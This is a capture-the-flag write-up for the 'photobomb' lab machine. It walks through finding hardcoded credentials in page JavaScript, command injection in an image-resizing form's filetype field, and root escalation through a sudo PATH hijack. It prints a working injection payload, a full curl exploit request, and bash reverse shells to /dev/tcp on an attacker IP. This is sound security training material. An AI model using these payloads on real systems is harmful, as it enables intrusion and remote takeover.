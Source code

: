 # photobomb

Not a lot going on with this box looking at it superficially. Ports 22 and 80 are open, and the webserver is pretty minimal.

Wfuzz finds a few resources, but they are all hidden behind basic authentication.

I tried bruteforcing the credentials with common usernames and passwords, but no luck.

When visiting an url that does not exist, one can see that the webserver framework is called Sinatra. Google tells me it's related to Ruby.

I also tried looking for exploits for this framework, but not a lot of data here, and also no luck.

# 404

In the process of revisiting everything again, I stumbled upon this source for the 404 page:

```
  <img src='http://127.0.0.1:4567/__sinatra__/404.png'>
```

And it's noticable since the image in the page does not load. I'm sure it worked on the developer's machine!

But it looks pretty suspect, right? The image does not load because localhost does not have a server running on port 4567 that serves the image 404.jpg. Localhost is me! Or whomever is visiting the website.

So that means if I host a webserver on port 4567 which serves a 404.jph image, it should appear, right?

Let's try. I setup a python server on the port and create the dir and file:

```
$ wget some-image-off-the-internet.png
$ mkdir __sinatra__
$ mv some-image-off-the-internet.png __sinatra__/404.png
$ python -m http.server 4567
```

And voila! The image appears on the 404 page. Now it's time to find out how this can give us some kind of foothold.

But I don't see how this can be exploited right off the bat. My first thought is that this will be limited to XSS, but localized to my computer since 127.0.0.1 refers to the website visitor's laptop. So even if someone else would visit the 404 page, they probably won't be hosting their own server and 404.png file with malicious content.

# New day, new hints

After cheating a bit, I checked out the source on the front page as well. Uses some custom javascript called photobomb.js:

```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Credentials are seemingly hardcoded, so let's try to log in with these.

Success! Looks like a service for downloading images in specific dimensions.

I took this to Burp to see what the request looked like:

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=30x20
```

And this is the form data being sent. First off the bat, I tried changing the dimension to something arbitrary that was not an option in the web ui; like 32x32 to see if I still get an image to download. My initial thought is that maybe there is some kind of image manipulation behind that generates the dimensions.

And I did get an image and the dimensions were as I had specified. That seems to confirm that there is some ad-hoc image resizig going on.

I then tried to see if I could send an http request to my own server by using some kind of command injection for the dimensions parameter, but I was not successful.

I then tried the filetype parameter, and had more luck here. This payload was working:

```
photo=andrea-de-santis-uCFuP0Gc_MM-unsplash.jpg&filetype=png%3b%20curl%20http%3a%2f%2f10.10.16.17%3a4444%2f&dimensions=30x30
```

Which is just `png; curl http://10.10.16.17:4444/` url encoded

I went on to try to craft a payload to give me a reverse shell and came up with this:

```
photo=andrea-de-santis-uCFuP0Gc_MM-unsplash.jpg&filetype=png%3b%20curl%20http%3a%2f%2f10.10.16.17%3a4444%2f&dimensions=30x30
```

Which is just url encoded from:

```
png; bash -c 'bash -i >& /dev/tcp/10.10.16.17/4444 0>&1'
```

I just assumed it was running in bash behind the scenes and looks like I was right!


The whole request as a curl command:

```
curl -i -s -k -X $'POST' \
    -H $'Host: photobomb.htb' \
    -H $'Content-Length: 168' \
    -H $'Authorization: Basic cEgwdDA6YjBNYiE=' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-binary $'photo=andrea-de-santis-uCFuP0Gc_MM-unsplash.jpg&filetype=png%3b%20bash%20-c%20\'bash%20-i%20%3e%26%20%2fdev%2ftcp%2f10.10.16.17%2f4444%200%3e%261\'%20%23&dimensions=30x30' \
    $'http://photobomb.htb/printer'
```

# Privesc

We enter as user wizard, but aim to exit as root!

Possible vectors:

something about SETENV

If i can control environment variables, I can control PATH. If I can control PATH I can control binaries that are not called with absolute path.

find is one such case!

# Getting root

A few days have passed, but I have managed to root the box.

So the thinking was correct: if the `find` command is relative in the cleanup scrpit, we can definitely exploit it.

However, I spent a good amount of time trying to get it to work. This was the main idea for my approach:

- Create a new executable called `find` in `/tmp/nscp`
- Call the cleanup script with sudo and pass in a new PATH variable such that `/tmp/nscp/find` is found before `/usr/bin/find`

And the idea was good, but I could not get it to work!

I found out that the mistake I was doing was trying to set the PATH variable before the sudo command:

```
PATH=/tmp/nscp:$PATH sudo /opt/cleanup.sh
```

And this does not work with sudo. It works completely fine with normal commands I've used so far in my work life. Calling it this way, the command executes, but the PATH variable is not passed at all.

What DOES work is to put it after sudo:

```
sudo PATH=/tmp/nscp:$PATH /opt/cleanup.sh
```

Contents of /tmp/nscp/find:

```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.16.17/5555 0>&1'
```

You can also just do

```
#!/bin/bash
bash
```

, I think.

# Conclusion

Really good box! I was somewhat stuck for the foothold and the final part of privesc. For foothold I did not consider looking at the page source for some time, and for the final part I did not properly understand the syntax for passing environment variables to sudo commands.
